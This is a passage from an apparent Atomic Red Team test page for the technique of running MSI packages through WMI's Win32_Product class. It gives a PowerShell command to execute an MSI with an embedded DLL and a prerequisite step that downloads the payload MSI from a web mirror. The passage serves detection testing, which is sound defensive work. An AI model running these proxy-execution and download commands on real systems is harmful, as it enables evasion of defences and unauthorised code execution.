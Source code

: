 


<br/>
<br/>

## Atomic Test #7 - WMI Win32_Product Class - Execute Local MSI file with an embedded DLL
Executes an MSI containing an embedded DLL using the WMI Win32_Product class

**Supported Platforms:** Windows


**auto_generated_guid:** 32eb3861-30da-4993-897a-42737152f5f8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | path | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;T1218.007_DLL.msi|
| action | Specifies the MSI action to perform: Install, Admin, Advertise. The included MSI is designed to support all three action types. | string | Install|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-CimMethod -ClassName Win32_Product -MethodName #{action} -Arguments @{ PackageLocation = '#{msi_payload}' }
```




#### Dependencies:  Run with `powershell`!
##### Description: The MSI file must exist on disk at specified location (#{msi_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{msi_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{msi_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.007/bin/T1218.007_DLL.msi" -OutFile "#{msi_payload}"
```




<br/>
<br/>

## Atomic Test #8 - WMI Win32_Product Class - Execute Local MSI file with an embedded EXE
Executes an MSI containing an embedded EXE using the WMI Win32_Product class
